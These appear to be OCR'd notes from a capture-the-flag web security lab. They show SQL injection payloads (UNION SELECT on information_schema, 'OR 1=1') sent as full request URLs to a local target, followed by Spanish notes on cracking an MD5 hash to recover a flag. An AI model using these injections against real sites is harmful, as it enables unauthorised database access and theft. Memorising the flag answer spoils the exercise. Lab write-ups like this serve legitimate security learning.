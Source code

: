 1 UNION SELECT null, table_name FROM information_schema.tables
http://localhost:8080/index.php?page=member&id=1+UNION+SELECT+null%2C+table_name+FROM+information_schema.tables&Submit=Submit#


1 OR 1=1
1 OR EXISTS (SELECT * FROM users)
http://localhost:8080/index.php?page=member&id=1+OR+EXISTS+%28SELECT+*+FROM+users+%29%3B+--+&Submit=Submit#

http://localhost:8080/index.php?page=member&id=1+UNION+SELECT+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit#
1 UNION SELECT table_name, column_name FROM information_schema.columns

"list_images" table contains the following columns: id, url, title, comment

1 OR 1=1 UNION SELECT title, comment from users
desencriptar con md5 la clave hacer lowercase y encriptar con sha256
"If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"
se convierte en "albatroz"